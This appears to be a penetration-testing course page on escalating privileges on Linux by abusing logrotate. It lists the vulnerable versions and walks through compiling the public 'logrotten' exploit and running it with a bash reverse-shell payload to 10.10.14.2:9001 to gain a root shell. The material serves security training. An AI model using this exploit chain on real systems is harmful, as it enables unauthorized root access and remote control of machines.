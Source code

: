 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)

## Table of Contents


Every Linux system produces large amounts of log files. To prevent the hard disk from overflowing, a tool called `logrotate` take care of archiving or disposing of old logs. It no attention is paid to log files, they become larger and larger and eventually occupy all available disk space. Furthermore, searching through many large log files is time-consuming. To prevent this and save disk space, `logrotate` has been developed. The logs in `/var/log` give administrators the information they need to determine the cause behind malfunctions. ALmost more important are the unnoticed system details, such as whether all services are running correctly.

`logrotate` has many features for managing these log files. These include the specification of:
- The `size` of the log file
- `age`
- and the `action` to be taken when one of these factors is reached.

This tool is usually started periodically via `cron` and controlled via the configuration file `/etc/logrotate.conf`. Within this file, it contains global settings that determine the function of `logrotate`.

Logrotate

```shell
gdxqpardo@htb[/htb]$ cat /etc/logrotate.conf
```


To force a new rotation on the same day, we can set the date after the individual log files in the status file `/var/lib/logrotate.status` or use the `-f`/`--force` option:

Logrotate

```shell
gdxqpardo@htb[/htb]$ sudo cat /var/lib/logrotate.status
```


We can find the corresponding configuration files in `/etc/logrotate.d` directory



```shell-session
gdxqpardo@htb[/htb]$ ls /etc/logrotate.d/
```

To exploit `logrotate`, we need some requirements that we have to fulfill.

1. we need `write` permissions on the log files
2. logrotate must run as a privileged user or `root`
3. vulnerable versions:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0

There is a prefabricated exploit that we can use for this if the requirements are met. This exploit is named [logrotten](https://github.com/whotwagner/logrotten). We can download and compile it on a similar kernel of the target system and then transfer it to the target system. Alternatively, if we can compile the code on the target system, then we can do it directly on the target system.

```shell-session
logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
logger@nix02:~$ cd logrotten
logger@nix02:~$ gcc logrotten.c -o logrotten
```

Next, we need a payload to be executed. Here many different options are available to us that we can use. In this example, we will run a simple bash-based reverse shell with the `IP` and `port` of our VM that we use to attack the target system.

```shell
logger@nix02:~$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

However, before running the exploit, we need to determine which option `logrotate` uses in `logrotate.conf`


```shell
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```

As a final step, we run the exploit with the prepared payload and wait for a reverse shell as a privileged user or root.

Logrotate

```shell-session
logger@nix02:~$ ./logrotten -p ./payload /tmp/tmp.log
```

